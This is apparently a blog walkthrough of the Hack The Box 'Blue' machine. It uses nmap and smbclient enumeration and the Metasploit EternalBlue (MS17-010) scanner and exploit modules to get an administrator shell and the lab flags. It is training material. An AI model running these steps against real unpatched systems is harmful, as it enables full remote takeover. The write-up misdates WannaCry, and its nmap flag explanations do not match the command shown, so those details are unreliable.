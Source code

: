 ```yaml
---
title: Blue Writeup/Walk through
date: 2025-03-12
tags:
  - writeup
  - walkthrough
  - hackthebox
---
```

Today a friend and I started our Hack the Box labs journey by completing the retired machine Blue. While it was really easy, we both learned some new things in regards to the *Eternal Blue* exploit. Below is our personal goals, goals of the machine, and walk through showing how we obtained the flags.
# Personal Goals
- Get flags in under 30 minuets
	- Accomplished
# Goals
- submit user flag
- submit root flag
# Blue Machine Write Up
## Summary of Eternal Blue
Blue is a machine on a popular cybersecurity training website called *Hack The Box*, also known as HTB. This machine is meant to teach the user how to exploit the common vulnerability called *Eternal Blue*, also known as MS17-010, which effected Microsoft Windows from Vista until Windows Server 2016. This exploit was also used in the *WannaCry* ransomware attack on June 27, 2017. There is a patch now and more recent systems are no longer effected from this vulnerability since Microsoft disables the protocol by default. However if and older machine is on the network and it has not received the patch for *Eternal Blue* it is still vulnerable.

## Connecting to the Machine
This will differ for everyone but since I try to keep my workspace as neat as possible and attempt to limit the number of terminals I have open at a given time I use `tmux` to spawn terminal's inside of terminals. Tmux is a terminal multiplexer that allows you to basically have a terminal inside of a terminal as I described above. To install tmux you will need to run the following command
- `sudo apt install tmux -y`
After installing tmux, to spawn a new terminal you will want to run a very simple command below
- `tmux`
Thats it, you are now in your terminal inside of a terminal. In this terminal you can do what ever you want. I use it to spawn my openvpn software in this case using the command below
- `sudo openvpn /path/to/.opvpn`
After running the command I press `CNTRL + B` and then the `D` key to disconnect from the tmux session. To get back to the session your vpn was in just use the command below with the session number you just detached from
- `tmux attach -t (session number)`
Now that we have that set up, we can move into scanning and doing some enumeration on this machine.

## Enumeration
We started off with basic enumeration. But first lets make sure our host machine is online by pinging it.
- `ping 10.10.10.40`
- ![Image Description](/images/Screenshot_2025-03-12_16-40-09.png)
### Nmap Scan
Now that we know the machine is online we can scan the machine using the below command.
- `nmap -Pn -sV -sS 10.10.10.40`
	- **-Pn** turns off host discovery, we do not need this as we already know our host is online
	- **-sVC** is for our service version scan, this will inform us of all the services versions when the scan is complete it will also provide the hostname of the system and the OS
	- **-sS** is for a TCP SYN scan
	- **-p 1-10000** only will scan ports 1-10000, in guided mode the task is only asking for ports that are not 5 digits long.
	- 
- !![Image Description](/images/Pasted%20image%2020250312164710.png)
Now that we have the Nmap scan complete lets look over our ports and see what is interesting to us.
- Port 135 MSRPC
	- Microsoft Remote Procedure Call. 
	- Allows for programs on different computers to communicate and execute functions or procedures with eachother
- Port 139 NetBIOS
	- Used for SMB communication
- Port 445
	- Used for SMB
The two ports that stood out the most to me are ports 139 and 445 since they are both used for SMB. Lets enumerate the SMB shares on this machine.

### SMB Enumeration
To start this I used `smbclient` to connect and list the shares on the machine. Below is the command I used to do that since you will need to say how many shares there are in the guided mode of this machine.
- `smbclient -L (machine IP)`
	- **-L** lists all the shares in SMB
- ![Image Description](/images/Pasted%20image%2020250312165347.png)
Now that we have that out of the way lets start the exploitation process of this machine

## Exploitation

### Checking to see if the machine is vulnerable
First we should see if the machine is even vulnerable to *Eternal Blue*.
- **Side note**: Even though we already know the machine is vulnerable to it, as a penetration tester you should **ALWAYS** scan the machine to see if it is vulnerable to anything like this before just going to exploit. This will save you time later on.
To do this we will use *metasploit* you can spawn your metasploit terminal by using the command below
- `msfconsole`
- ![Image Description](/images/Pasted%20image%2020250312165637.png)
After we have spawned metasploit we will search for our MS17-010 scanner by using the following command
- `search auxiliary eternal blue`
- ![Image Description](/images/Pasted%20image%2020250312165834.png)
The module we will select here is 5, to do so use the following command
- `use 5`
- ![Image Description](/images/Pasted%20image%2020250312165920.png)
After that we will want to see the options this gives us, to do so use the show options command below
- `show options`
- ![Image Description](/images/Pasted%20image%2020250312170020.png)
Now that we have that, lets set RHOSTS to our machines IP address so we can scan it using the following command.
- `set RHOSTS (machine IP)`
- ![Image Description](/images/Pasted%20image%2020250312170135.png)
Now that that is done, lets run our scanner
- `run`
- ![Image Description](/images/Pasted%20image%2020250312170223.png)
It looks like the machine is vulnerable to Eternal Blue! Now its time to actually exploit the machine.

### Running the exploit
The first thing we will need to do is find the module we want to use in metasploit. To do this we will use the below command.
- `search eternal blue`
- ![Image Description](/images/Pasted%20image%2020250312170459.png)
We will want to use the module that is called *windows/smb/ms17_010_eternalblue* to do so on my end I will run the below command.
- `use 1`
- ![Image Description](/images/Pasted%20image%2020250312170610.png)
Again we will want to show our options to see what needs to be configured.
- `show options`
- ![Image Description](/images/Pasted%20image%2020250312170702.png)
Time to configure the options, the only things that need to be configured are the *RHOSTS* and the *LHOST*. The *LHOST* is the VPN IP of **YOUR** attack machine. Follow the below commands to set up your exploit module.
- `set RHOSTS (machine IP)`
- Spawn a new terminal and run the below command
	- `ifconfig tun0`
		- Get the inet IP address
	- 
- `set LHOST (tun0 IP address)`
- Yours should look similar to the below but with your LHOST set
- ![Image Description](/images/Pasted%20image%2020250312171201.png)
Now that everything is configured, lets run our exploit
- `run`
- ![Image Description](/images/Pasted%20image%2020250312171358.png)
And now we have a meterpreter session on the victims computer! Lets spawn a shell.
- `shell`
- ![Image Description](/images/Pasted%20image%2020250312171521.png)
Now a quick whoami to see what user we are and to see the privileges we have.
- `whoami`
- ![Image Description](/images/Pasted%20image%2020250312171608.png)
We were given admin credentials, we have full control over our system. Now time to get those flags!
- User flag is stored at
	- **C:\Users\haris\Desktop**
- Root flag is stored at
	- **C:\Users\Administrator\Desktop**

Submit those flags and you have then PWND this machine!

# Summary of the Machine
While this machine is easy, it shows newcomers to cybersecurity the dangers of misconfigurations and how vulnerable an unpatched machine is. I hope this write up helped you and I hope you learned something from this.

